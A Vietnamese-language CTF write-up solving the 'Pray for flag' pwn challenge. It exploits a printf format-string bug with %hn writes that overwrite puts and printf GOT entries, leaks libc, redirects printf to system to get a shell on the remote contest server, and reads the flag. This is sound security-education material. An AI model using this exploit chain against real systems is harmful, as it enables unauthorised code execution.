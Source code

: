 # PWN WRITE UP
## 1. Pray for flag


Đầu tiên mình kiểm tra qua file bằng checksec 


```
[*] '/home/iluvinn/pwn/svattt/pray_for_flag/pwn1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Thấy có canary và nx enabled nên hướng làm có thể sẽ sử dụng format string. 
<br>
Chạy thử để xem file hoạt động ra sao <br>
```
## TEST 1 ##
iluvinn in ~/pwn/svattt/pray_for_flag λ ./pwn1
Welcome to the wishing central!
Tell me what you want and I will give it to you.
What do you want?
I_want_money      <=== USER INPUT
I_want_money      <=== OUTPUT
Bye
## TEST 2 ##
iluvinn in ~/pwn/svattt/pray_for_flag λ ./pwn1
Welcome to the wishing central!
Tell me what you want and I will give it to you.
What do you want?
%p.%p.%p                      <=== INPUT
0x100.0xf7f125c0.0x80485df    <=== OUTPUT 
Bye
```
Sure kèo có format string rồi :v 
<br>
Tiếp sau đấy mình dùng ida để decompile ra source code
```
void init()
{
  setbuf(stdout, 0);
  setbuf(stdin, 0);
  setbuf(stderr, 0);
}

unsigned int vuln()
{
  char s[256]; // [esp+Ch] [ebp-10Ch] BYREF
  unsigned int v2; // [esp+10Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);        <=== CANARY
  fgets(s, 256, stdin);
  printf(s);                        <=== FORMAT STRING VULN
  return __readgsdword(0x14u) ^ v2;
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  init(&argc);
  puts("Welcome to the wishing central!");
  puts("Tell me what you want and I will give it to you.");
  puts("What do you want?");
  vuln();
  puts("Bye");
  return 0;
}
``` 

Mình nhận tháy là trong .plt không có hàm system vậy nên ý nghĩ ban đầu cần phải có libc base address, system offset và "/bin/sh" offset sau đó điều khiển luồng chương trình thực thi hàm system và gọi bash.
<br>
Ý tưởng của mình ở đây là overwrite địa chỉ của hàm puts khiến nó gọi lại hàm vuln để tạo 1 vòng loop. Sau đó overwrite hàm printf bằng system. Đến lần loop thứ 3 ta chỉ đơn giản là input chuỗi "/bin/sh"
<br>
Đầu tiên là leak stack để tìm libc base và tạo loop.

```
iluvinn in ~/pwn/svattt/pray_for_flag λ ./pwn1
Welcome to the wishing central!
Tell me what you want and I will give it to you.
What do you want?
AAAA%p.%p.%p.%p.%p.%p.%p.%p          
AAAA0x100.0xf7f165c0.0x80485df.0xf7f16d80.0x11.0x80487b1.0x41414141.0x252e7025    <=== write to parameter 7 on stack
Bye
----------------#   GDB   #--------------------------
main:
   0x0804868b <+82>:	add    esp,0x10
   0x0804868e <+85>:	call   0x80485d0 <vuln>  <==== overwirte puts@plt = 0x0804868e
   0x08048693 <+90>:	sub    esp,0xc
puts@plt:
   0x08048430 <+0>:	jmp    DWORD PTR ds:0x804a01c
   0x08048436 <+6>:	push   0x20
   0x0804843b <+11>:	jmp    0x80483e0

----------------# Exploit #--------------------------
   put =  0x804a01c
   arr = [0x868e,0x0804]          <==== address of "call   0x80485d0 <vuln>"
   exp = p32(put)+p32(put+2)      <==== put low and high address of "puts" into stack
   
   wr = arr[1]-8
   exp+="%"+str(wr)+"c%8$hn"      <==== write low addr with "%hn"
   wr = arr[0]-arr[1]
   exp+="%"+str(wr)+"c%7$hn"      <==== write high addr with "%hn"
   
   exp+="%2$p"                    <==== leak 1 addr in libc to calculate libc base address
   x = 0xf7edc5c0 - 0xf7d04000    <==== offset from 2nd parameter to libc base address
   
   p.recvuntil('want?\n')
   p.sendline(exp)                <==== send payload
   p.recvuntil('0x')
   libc_base =int("0x"+p.recv(8),16)-x  <=== leak 2nd parameter and calculate libc base address
   print "libc base: "+hex(libc_base)
```
Tiếp sau đó ta overwrite printf thành system
```
------------------------------------------
iluvinn in ~/pwn/svattt/pray_for_flag λ readelf -s libc-2.27.so | grep system
   254: 00129530   102 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
   652: 0003d2e0    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1510: 0003d2e0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0              <==== system offset
--------------# GDB #---------------------
pr = 0x804a010                  <==== printf@plt addr

sys_offset = 0x003d2e0
sys_got=libc_base+sys_offset
sys_got = str(hex(sys_got))
arr = [int("0x"+sys_got[6:],16),int(sys_got[:6],16)]

exp = p32(pr)+p32(pr+2)         
xx = arr[0]-8
exp+="%"+str(xx)+"c%7$hn"
xx = arr[1]-arr[0]
exp+="%"+str(xx)+"c%8$hn"

p.sendline(exp)
p.sendline("/bin/sh")     <==== send "/bin/sh" string so it will call system("/bin/sh") instead of printf("/bin/sh")
p.interactive()
```
Chạy file exploit hoy
```
iluvinn in ~/pwn/svattt/pray_for_flag λ python exp.py
[+] Opening connection to 134.209.97.157 on port 2222: Done
libc base: 0xf7daa000
[*] Switching to interactive mode
$ id
uid=1000(noob) gid=1000(noob) groups=1000(noob)
$ cat fl*
ptitctf{B3_C4RFUL_WH47_Y0U_W15H_F0R}
$
```

